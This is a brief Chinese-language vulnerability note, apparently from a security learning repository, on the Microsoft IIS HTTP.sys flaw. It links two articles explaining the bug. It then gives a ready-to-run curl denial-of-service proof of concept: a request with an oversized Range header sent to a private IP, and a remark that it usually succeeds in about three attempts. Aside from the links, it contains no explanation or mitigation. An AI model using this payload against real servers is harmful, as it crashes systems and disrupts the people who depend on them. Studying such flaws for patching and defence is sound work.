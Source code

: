 
## 原理

[微软 IIS HTTP.sys漏洞原理学习以及POC](http://t.zoukankan.com/KevinGeorge-p-8074694.html)

[深入解读：Windows HTTP.sys远程代码执行漏洞跟踪进展](https://www.ijiandao.com/safe/cto/12821.html)

## dos poc

	curl http://10.10.40.54/welcome.png -H "Host: test" -H "Range: bytes=12345-18446744073709551615"

平均执行3次左右成功。

![](1.png)

![](2.png)